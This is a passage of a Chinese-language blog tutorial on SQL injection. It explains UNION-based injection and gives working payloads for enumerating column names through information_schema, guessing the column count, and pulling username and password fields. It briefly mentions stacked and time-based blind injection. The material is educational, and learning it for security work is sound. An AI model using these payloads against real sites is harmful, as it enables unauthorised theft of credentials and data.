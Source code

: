 3)

```
mysql> select name from students where id = -1 union select column_name from information_schema.columns where table_name = 'students' ;     //列名
+------+
| name |
+------+
| id   |
| name |
| age  |
+------+
3 rows in set (0.00 sec)
```

UNION 操作符用于合并两个或多个 SELECT 语句的结果集。**请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。**

举个例子，还以最开始的 OWASP 为基础，返回了两个值分别是 first_name 和 sur_name，可想而知，服务器在返回数据库的查询结果时，就会把结果中的第一个值和第二个值传给 first_name 和 sur_name，多了或少了，都会引起报错。

所以你如果想要使用union查询来进行注入，你首先要猜测后端查询语句中查询了多少列，哪些列可以回显给用户。

猜测列数

```
-1 union select 1
-1 union select 1,2
-1 union select 1,2,3
//直到页面正常显示
```

比如这条语句

    -1 UNION SELECT 1,2,3,4

如果显示的值为3和4，表示该查询结果中有四列，并且第三列和第四列是有用的。则相应的构造union语句如下

    -1 UNION SELECT 1,2,username,password FROM table

## 小结一下

SQL 注入大概有5种，还有两种分别是 Stacked_queries(基于堆栈)和 Time-based blind(时间延迟)，堆栈就是多语句查询，用 ‘;’ 把语句隔开，和 union 一样；时间延迟就是利用 sleep() 函数让数据库延迟执行，偷数据的速度很慢。(还有一个第六种，内联注入，但和前面涉及的内容有所重叠，就不单独来讨论了)

**引用说明**，自己之前研究 SQL 注入的时候，也是一点一点摸索的，本博客的大部分内容是来自于公司内网的服务器中(公司定期考核，看你都干了什么)。当时因为是内网，就没有做引用，现在想找到这些引用的文章也很困难，见谅。